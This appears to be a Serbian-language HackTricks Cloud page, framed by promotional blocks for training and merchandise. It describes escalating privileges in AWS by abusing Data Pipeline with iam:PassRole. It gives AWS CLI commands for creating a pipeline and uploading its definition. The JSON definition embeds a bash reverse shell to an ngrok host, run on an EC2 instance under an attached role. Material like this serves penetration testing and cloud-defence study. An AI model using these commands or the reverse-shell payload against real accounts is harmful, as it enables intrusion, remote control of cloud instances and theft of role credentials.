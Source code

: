 # AWS - Eskalacija privilegija u vezi sa Data Pipeline

<details>

<summary><strong>Naučite kako da hakujete AWS od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini da podržite HackTricks:

* Ako želite da vidite **vašu kompaniju reklamiranu na HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>

## datapipeline

Za više informacija o datapipeline-u pogledajte:

{% content-ref url="../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md" %}
[aws-datapipeline-codepipeline-codebuild-and-codecommit.md](../aws-services/aws-datapipeline-codepipeline-codebuild-and-codecommit.md)
{% endcontent-ref %}

### `iam:PassRole`, `datapipeline:CreatePipeline`, `datapipeline:PutPipelineDefinition`, `datapipeline:ActivatePipeline`

Korisnici sa ovim **dozvolama mogu eskalirati privilegije kreiranjem Data Pipeline-a** kako bi izvršili proizvoljne komande koristeći **dozvole dodeljene ulozi:**
```bash
aws datapipeline create-pipeline --name my_pipeline --unique-id unique_string
```
Nakon kreiranja cevovoda, napadač ažurira njegovu definiciju kako bi odredio određene radnje ili kreiranje resursa:
```json
{
"objects": [
{
"id" : "CreateDirectory",
"type" : "ShellCommandActivity",
"command" : "bash -c 'bash -i >& /dev/tcp/8.tcp.ngrok.io/13605 0>&1'",
"runsOn" : {"ref": "instance"}
},
{
"id": "Default",
"scheduleType": "ondemand",
"failureAndRerunMode": "CASCADE",
"name": "Default",
"role": "assumable_datapipeline",
"resourceRole": "assumable_datapipeline"
},
{
"id" : "instance",
"name" : "instance",
"type" : "Ec2Resource",
"actionOnTaskFailure" : "terminate",
"actionOnResourceFailure" : "retryAll",
"maximumRetries" : "1",
"instanceType" : "t2.micro",
"securityGroups" : ["default"],
"role" : "assumable_datapipeline",
"resourceRole" : "assumable_ec2_profile_instance"
}]
}
```
{% hint style="info" %}
Imajte na umu da **uloga** u **liniji 14, 15 i 27** mora biti uloga **koju može preuzeti datapipeline.amazonaws.com**, a uloga u **liniji 28** mora biti **uloga koju može preuzeti ec2.amazonaws.com sa EC2 profilom instance**.

Osim toga, EC2 instanca će imati pristup samo ulozi koju može preuzeti EC2 instanca (tako da možete samo ukrasti tu).
{% endhint %}
```bash
aws datapipeline put-pipeline-definition --pipeline-id <pipeline-id> \
--pipeline-definition file:///pipeline/definition.json
```
**Definicija fajla za izvršavanje, koju je napadač kreirao, uključuje direktive za izvršavanje komandi** ili kreiranje resursa putem AWS API-ja, iskorišćavajući dozvole uloge Data Pipeline-a kako bi potencijalno stekao dodatne privilegije.

**Potencijalni uticaj:** Direktno povećanje privilegija na ec2 servisnu ulogu koja je navedena.

## Reference

* [https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/](https://rhinosecuritylabs.com/aws/aws-privilege-escalation-methods-mitigation/)

<details>

<summary><strong>Naučite hakovanje AWS-a od nule do heroja sa</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Drugi načini podrške HackTricks-u:

* Ako želite da vidite **vašu kompaniju reklamiranu u HackTricks-u** ili **preuzmete HackTricks u PDF formatu**, proverite [**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)!
* Nabavite [**zvanični PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Otkrijte [**The PEASS Family**](https://opensea.io/collection/the-peass-family), našu kolekciju ekskluzivnih [**NFT-ova**](https://opensea.io/collection/the-peass-family)
* **Pridružite se** 💬 [**Discord grupi**](https://discord.gg/hRep4RUj7f) ili [**telegram grupi**](https://t.me/peass) ili nas **pratite** na **Twitter-u** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**.**
* **Podelite svoje hakovanje trikove slanjem PR-ova na** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repozitorijume.

</details>
